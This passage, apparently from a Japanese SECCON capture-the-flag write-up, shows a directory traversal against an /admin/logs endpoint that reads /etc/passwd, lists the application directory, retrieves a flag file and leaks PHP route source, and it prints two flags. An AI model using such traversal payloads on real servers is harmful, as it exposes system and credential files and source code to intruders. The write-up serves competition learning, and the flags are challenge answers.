 ```
SECCON{bb2e17df0cc7902f6460b22fa5928ad3}
```

`/admin/logs` にアクセスすると、以下のように、特定のファイルが読み込める機能があると HTML のコメントで書かれていました。

```html
<!-- Testing now: <a href="/admin/logs?p=nginx/error.log"></a> -->
```

`/admin/logs?p=../../../../../../etc/passwd` にアクセスすると `/etc/passwd` の内容を得ることができました。ディレクトリトラバーサルができるようです。

サービスのソースコードが得られないか、`/admin/logs?p=../../../../../var/www/umeda/` を試してみるとファイルの一覧が得られました。

```
CONTRIBUTING.md
README.md
_env
chrome
composer.json
composer.lock
conf
db
docker-compose.yml
errors
heeeeeeeey_i_am_a_flag.txt
logs
models
php-fpm
phpunit.xml
public
src
templates
tests
vendor
```

`/admin/logs?p=../../../../../var/www/umeda/heeeeeeeey_i_am_a_flag.txt` で 4 つ目のフラグが得られました。

```
SECCON{bc4f9e6ed8ff00feb593bc8e85ad99e0}
```

`/admin/logs?p=../../../../../var/www/umeda/src/routes.php` で `routes.php` の一部が得られました。

```php
        } catch (Errors\NotFoundException $e) {
            $this->flash->addMessage('error', $e->getMessage());
        }
        return $res->withStatus(303)->withHeader('Location', $this->router->pathFor('admin-users'));
    })->setName('new-admin');
});

$app->group('/login', function () {
    $this->get('', function (Request $req, Response $res) {
        $messages = $this->flash->getMessages();
        return $this->view->render($res, 'login.twig', [
            'message' => isset($messages['message']) ? $messages['message'][0] : null,
            'error' => isset($messages['error']) ? $messages['error'][0] : null,
            'csrf' => Models\Auth::generateTokens($this),
        ]);
    })->setName('login');

    $this->post('', function (Request $req, Response $res) {
        $params = $req->getParsedBody();
        $name = filter_var($params['name']);
        $password = filter_var($params['password']);
```
